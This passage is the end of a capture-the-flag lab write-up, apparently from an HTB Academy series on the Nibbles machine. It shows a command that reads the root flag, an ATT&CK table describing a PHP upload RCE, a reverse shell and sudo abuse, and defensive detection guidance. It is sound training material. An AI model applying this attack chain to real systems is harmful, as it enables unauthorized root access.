*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


### It does! Now let's obtain the flag

It does! Now let's obtain the flag:
```bash
cat /root/root.txt
```


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1059.004, T1548.003, T1046` |
| **Common Weakness Enumerations** | `CWE-78, CWE-434, CWE-269` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Nibbles Blog RCE via arbitrary PHP upload |
| [`T1059.004`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter: Unix Shell** | `Execution` | Bash interactive shell via reverse shell payload |
| [`T1548.003`](https://attack.mitre.org/techniques/T1548/) | **Sudo and Sudo Caching** | `Privilege Escalation` | Sudo privileges on monitor.sh script to execute root shell |
| [`T1046`](https://attack.mitre.org/techniques/T1046/) | **Network Service Discovery** | `Discovery` | Nmap port and service banner discovery |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-78`: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
- [`CWE-434`: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [`CWE-269`: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Monitor web server process trees (e.g., Apache/nginx) spawning `/bin/bash` or `/bin/sh` via Linux Auditd or Sysmon for Linux.
- Alert on unauthorized edits to script files specified in `sudoers` configurations (`/etc/sudoers` or `/etc/sudoers.d/*`).
- Deploy Web Application Firewall (WAF) inspection rules filtering multipart form uploads containing PHP executable signatures.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Getting Started Module](https://academy.hackthebox.com/module/77) — *Official Hack The Box curriculum track*
- [OWASP Web Security Testing Guide (WSTG)](https://owasp.org/www-project-web-security-testing-guide/) — *Comprehensive testing standard for web applications*
- [GTFOBins: Sudo Privilege Escalation](https://gtfobins.github.io/) — *Curated list of Unix binaries that can be exploited for privilege escalation*
- [Exploit-DB Nibbleblog 4.0.3 RCE (CVE-2015-6967)](https://www.exploit-db.com/exploits/38489) — *Public vulnerability details and exploit proof-of-concept*


<div class="ff-series-nav">
  <div class="ff-nav-placeholder"></div>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 1 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-2-file-transfers/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 2: File Transfers</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
